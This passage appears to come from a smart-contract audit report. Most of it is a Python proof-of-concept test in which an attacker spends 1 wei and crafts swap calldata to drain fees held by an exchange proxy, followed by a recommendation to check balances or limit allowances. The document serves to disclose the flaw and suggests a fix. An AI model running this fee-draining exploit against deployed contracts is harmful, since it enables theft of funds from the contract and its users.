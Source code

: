 ```python
  ## Verify we have no out
  assert token_out.balanceOf(customer) == 0
  ## Verify proxy has no fees
  assert token_out.balanceOf(exchange_proxy) == 0

  amount_in = 10_000
  ## approve
  token_in.approve(exchange_proxy, amount_in, {"from": customer})

  ## Setup calldata for genuine tx which generates fees
  data = swapper.doSwap.encode_input(token_in, token_out, amount_in)
  
  

  exchange_proxy.executeSwap(token_in, token_out, amount_in, data, {"from": customer})

  ## Ensure swap happened as intended
  ## Verify we got out
  assert token_out.balanceOf(customer) > 0

  ## Some fees are in contract
  fees = token_out.balanceOf(exchange_proxy)



  ## == Execute the attack == ##
    ## Setup calldata for genuine tx which generates fees
  
  ## We'll send 1 wei
  attack_amount_in = 1

  assert token_out.balanceOf(attacker) == attack_amount_in
  assert token_in.balanceOf(attacker) == 0

  token_out.approve(exchange_proxy, attack_amount_in, {"from": attacker})

  ## Swap the whole amount
  data_attack = swapper.doSwap.encode_input(token_out, token_in, fees + attack_amount_in)

  ## We'll receive the swap from both the amount_in + fees
  exchange_proxy.executeSwap(token_out, token_in, attack_amount_in, data_attack, {"from": attacker})

  ## We stole the fees
  assert token_out.balanceOf(exchange_proxy) == 0

  ## And attacker is running away with them
  assert token_in.balanceOf(attacker) > 0
```

If fees are high enough, an attacker can perform this both ways and multiple times to eventually leave dust amounts of fees

## Tool used

Manual Review

## Recommendation

I believe checking for balance of both tokenIn and tokenOut may be a good idea.

Alternatively granting exactly and exclusively the allowance from `amountIn` may be sufficient to avoid moving tokens that belong to the contract.
